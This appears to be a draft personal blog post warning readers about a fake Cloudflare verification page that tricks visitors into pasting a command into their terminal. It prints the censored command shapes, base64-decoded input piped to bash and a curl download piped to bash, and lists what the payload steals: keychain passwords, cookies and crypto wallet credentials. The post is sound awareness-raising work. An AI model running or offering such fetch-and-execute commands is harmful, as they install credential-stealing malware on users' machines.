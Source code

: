 <!------------------------- REFERENCE LINKS BLOCK ----------------------------------->
[TODO]: some-link
<!----------------------- END REFERENCE LINKS BLOCK --------------------------------->

Watch Out For This Malware
==========================
Spreading the word about a nasty new phishing scam

![](./images/image.png)

> 🚨 BLUF: there's a clever new malware posing as a Cloudflare "verify you're human" page. If you do what this malware wants, it will steal everything on your computer. DO NOT EVER run anything from a website in your terminal! There's no legitimate reason to do so, unless you're a coder and know what you're doing.

I followed a link on a Harvard Health article and was presented with this official-looking screen:

![](./images/malware.jpeg)

_Website blocked out because I'm unsure if they're part of the malware, or just a victim._

I knew [Cloudflare has beef with AI companies](https://www.forbes.com/sites/johnwerner/2025/07/12/cloudflare-gives-ai-bot-companies-ultimatum/) so my subconscious figured this must be part of their war. Right as I mindlessly clicked "Copy", two huge red flags burst into my consciousness:

1. Why is Cloudflare asking me to run things in the terminal? No legitimate website would be asking to run arbitrary commands on my computer.
2. The supposed text to run wouldn't actually _do_ anything on the terminal.

Curious, I checked to see what I'd actually copied:

```
echo "<bunch of base64 I'm censoring for safety>" | base64 -d | bash
```

Suuuuper sketchy... some opaque encoded stuff is getting executed directly in `bash`. Very unlikely Cloudflare would do this, unless they pushed some very boneheaded feature recently.

What's inside that encoded stuff? Running just the decode gives me:

```
curl -s http://<a totally random URL>/some/file.php | nohup bash &
```

_Again, censoring for safety._

So it would download a random file from a random server, and then run it with `bash`. I knew at this point that this isn't Cloudflare; it's malware.

My heebie-jeebies went into overdrive, and I closed the tabs before I accidentally ran anything like the full command.

> 🧠 Let me tell you: coffee's stimulant effects have nothing on knowing that if you copy-paste wrong, you'll run something from god-knows-where doing god-knows-what.

I then Googled to see if anyone else had seen this.

Turns out [this security researcher has](https://cyooda.com/blog/highly-malicious-macos-infostealer), and he did the work of figuring out what that PHP file would have done:

- Copy the passwords in my Mac keychain
- Copy the cookies from my browsers
- Copy credentials to crypto wallets on my machine
- Send it all to a remote server

Scary stuff.

I then reported both sites to [Google Safe Browsing](https://safebrowsing.google.com/) and closed everything out.

But I couldn't resist one last little investigation: who owns this domain?

I did a `whois` on the domain, and...

...it's registered with [this Japanese domain registrar](https://en.wikipedia.org/wiki/GMO_Internet), but the registrant is hidden :(

That the trail leads back to Asia has me guessing this is either Chinese or North Korean in origin.

North Korea's cyberwarfare is [notoriously aggressive in stealing crypto given the country has no real economy to speak of](https://observer.com/2025/04/how-north-korea-became-a-cybercrime-superpower-without-internet-access/), and the script stores its stolen credentials in a directory called `lovemrtrump`.

Perhaps a nod to the North Korea ↔ Trump relations? Or maybe a total red herring.

Regardless, I got chills knowing that the single line of text with such destructive power was still in my clipboard.

---

A few years back I wrote a guide on how normal people can stay safe on the internet.

I still follow it, and one of my recommendations there - [1Password](https://1password.com/)- would have partially protected me even if I'd run the malware.

If you want to build your own cyber defenses to Good Enough, you'll probably be interested in the guide: [Cybersecurity 101](https://mieubrisse.substack.com/p/cybersecurity-101).

And if this post was useful to you, consider subscribing for more posts designed to make your life better:

TODO SUBSCRIBE BUTTON

<!------------------ IG POST DESCRIPTION --------------------->
<!--
TODO

🐒 Full article at link in bio.
-->
